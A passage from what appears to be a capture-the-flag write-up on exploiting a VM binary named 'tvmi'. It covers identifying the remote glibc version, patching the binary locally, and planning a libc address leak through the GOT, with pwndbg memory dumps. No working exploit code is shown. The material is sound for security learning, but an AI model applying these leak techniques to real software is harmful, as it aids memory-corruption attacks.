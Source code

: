 So the version of the remote libc is: `Ubuntu GLIBC 2.35-0ubuntu3.1`. We can download it using [libc-database](https://github.com/niklasb/libc-database) and [patch](https://github.com/NixOS/patchelf) local `tvmi` binary to use it, so can prepare our exploit on local env.


### Leaking libc address

Idea of leaking libc address is rather simple - just find a place where the libc address is stored, leak it and do an offset calculation. Bad news is that we cannot do a typical pwn workflow when library address is leaked, and then we launch the second stage of exploit - we need to do a one shot instead, so we should store libc address in vm's registers, but... they are 32bit, so we need to use two registers - one for storing higher 32bits and second for lower 32bits.

I've decided to leak some values from libc GOT. First check out what is in the GOT section:

```c
pwndbg> vmmap libc
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
             Start                End Perm     Size Offset File
    0x7f1fd9161000     0x7f1fd9189000 r--p    28000      0 /usr/lib/x86_64-linux-gnu/libc.so.6
    0x7f1fd9189000     0x7f1fd931e000 r-xp   195000  28000 /usr/lib/x86_64-linux-gnu/libc.so.6
    0x7f1fd931e000     0x7f1fd9376000 r--p    58000 1bd000 /usr/lib/x86_64-linux-gnu/libc.so.6
    0x7f1fd9376000     0x7f1fd937a000 r--p     4000 214000 /usr/lib/x86_64-linux-gnu/libc.so.6
    0x7f1fd937a000     0x7f1fd937c000 rw-p     2000 218000 /usr/lib/x86_64-linux-gnu/libc.so.6

pwndbg> tele 0x7f1fd937a000 0x80
00:0000│  0x7f1fd937a000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x218bc0
01:0008│  0x7f1fd937a008 (_GLOBAL_OFFSET_TABLE_+8) —▸ 0x7f1fd939e160 —▸ 0x7f1fd9161000 ◂— 0x3010102464c457f
02:0010│  0x7f1fd937a010 (_GLOBAL_OFFSET_TABLE_+16) —▸ 0x7f1fd93b5c60 (_dl_runtime_resolve_xsave) ◂— endbr64 
03:0018│  0x7f1fd937a018 (*ABS*@got.plt) —▸ 0x7f1fd921bb70 (__strnlen_sse2) ◂— endbr64 
04:0020│  0x7f1fd937a020 (*ABS*@got.plt) —▸ 0x7f1fd9215c30 (__rawmemchr_sse2) ◂— endbr64 
05:0028│  0x7f1fd937a028 (realloc@got[plt]) —▸ 0x7f1fd9189030 ◂— endbr64 
06:0030│  0x7f1fd937a030 (*ABS*@got.plt) —▸ 0x7f1fd92fc930 (__strncasecmp_avx) ◂— endbr64 
07:0038│  0x7f1fd937a038 (_dl_exception_create@got.plt) —▸ 0x7f1fd9189050 ◂— endbr64 
08:0040│  0x7f1fd937a040 (*ABS*@got.plt) —▸ 0x7f1fd9301890 (__mempcpy_avx_unaligned) ◂— endbr64 
09:0048│  0x7f1fd937a048 (*ABS*@got.plt) —▸ 0x7f1fd9302050 (__wmemset_avx2_unaligned) ◂— endbr64 
0a:0050│  0x7f1fd937a050 (calloc@got[plt]) —▸ 0x7f1fd9189080 ◂— endbr64 
0b:0058│  0x7f1fd937a058 (*ABS*@got.plt) —▸ 0x7f1fd92f9990 (__strspn_sse42) ◂— endbr64 
0c:0060│  0x7f1fd937a060 (*ABS*@got.plt) —▸ 0x7f1fd9215900 (__memchr_sse2) ◂— endbr64 
0d:0068│  0x7f1fd937a068 (*ABS*@got.plt) —▸ 0x7f1fd93018b0 (__memmove_avx_unaligned) ◂— endbr64 
0e:0070│  0x7f1fd937a070 (*ABS*@got.plt) —▸ 0x7f1fd9237b60 (__wmemchr_sse2) ◂— endbr64 
0f:0078│  0x7f1fd937a078 (*ABS*@got.plt) —▸ 0x7f1fd9300b20 (__stpcpy_avx2) ◂— endbr64 
10:0080│  0x7f1fd937a080 (*ABS*@got.plt) —▸ 0x7f1fd9304550 (__wmemcmp_sse4_1) ◂— endbr64 
11:0088│  0x7f1fd937a088 (_dl_find_dso_for_object@got.plt) —▸ 0x7f1fd91890f0 ◂— endbr64 
12:0090│  0x7f1fd937a090 (*ABS*@got.plt) —▸ 0x7f1fd93001c0 (__strncpy_avx2) ◂— endbr64 
13:0098│  0x7f1fd937a098 (*ABS*@got.plt) —▸ 0x7f1fd921b9d0 (__strlen_sse2) ◂— endbr64 
14:00a0│  0x7f1fd937a0a0 (*ABS*@got.plt) —▸ 0x7f1fd92fb2c4 (__strcasecmp_l_avx) ◂— endbr64 
15:00a8│  0x7f1fd937a0a8 (*ABS*@got.plt) —▸ 0x7f1fd92ffe30 (__strcpy_avx2) ◂— endbr64 
16:00b0│  0x7f1fd937a0b0 (*ABS*@got.plt) —▸ 0x7f1fd9238d00 (__wcschr_sse2) ◂— endbr64 
17:00b8│  0x7f1fd937a0b8 (*ABS*@got.plt) —▸ 0x7f1fd921b4c0 (__strchrnul_sse2) ◂— endbr64 
18:00c0│  0x7f1fd937a0c0 (*ABS*@got.plt) —▸ 0x7f1fd9215e40 (__memrchr_sse2) ◂— endbr64 
19:00c8│  0x7f1fd937a0c8 (_dl_deallocate_tls@got.plt) —▸ 0x7f1fd9189170 ◂— endbr64 
1a:00d0│  0x7f1fd937a0d0 (__tls_get_addr@got.plt) —▸ 0x7f1fd9189180 ◂— endbr64 
1b:00d8│  0x7f1fd937a0d8 (*ABS*@got.plt) —▸ 0x7f1fd9302050 (__wmemset_avx2_unaligned) ◂— endbr64 
1c:00e0│  0x7f1fd937a0e0 (*ABS*@got.plt) —▸ 0x7f1fd9303cb0 (__memcmp_sse4_1) ◂— endbr64 
1d:00e8│  0x7f1fd937a0e8 (*ABS*@got.plt) —▸ 0x7f1fd92fc944 (__strncasecmp_l_avx) ◂— endbr64 
1e:00f0│  0x7f1fd937a0f0 (_dl_fatal_printf@got.plt) —▸ 0x7f1fd91891c0 ◂— endbr64 
1f:00f8│  0x7f1fd937a0f8 (*ABS*@got.plt) —▸ 0x7f1fd92fedb0 (__strcat_avx2) ◂— endbr64 
20:0100│  0x7f1fd937a100 (*ABS*@got.plt) —▸ 0x7f1fd92f37a0 (__wcscpy_ssse3) ◂— endbr64 
21:0108│  0x7f1fd937a108 (*ABS*@got.plt) —▸ 0x7f1fd92f9730 (__strcspn_sse42) ◂— endbr64 
22:0110│  0x7f1fd937a110 (*ABS*@got.plt) —▸ 0x7f1fd92fb2b0 (__strcasecmp_avx) ◂— endbr64 
23:0118│  0x7f1fd937a118 (*ABS*@got.plt) —▸ 0x7f1fd92f9f00 (__strncmp_avx2) ◂— endbr64 
24:0120│  0x7f1fd937a120 (*ABS*@got.plt) —▸ 0x7f1fd9237b60 (__wmemchr_sse2) ◂— endbr64 
```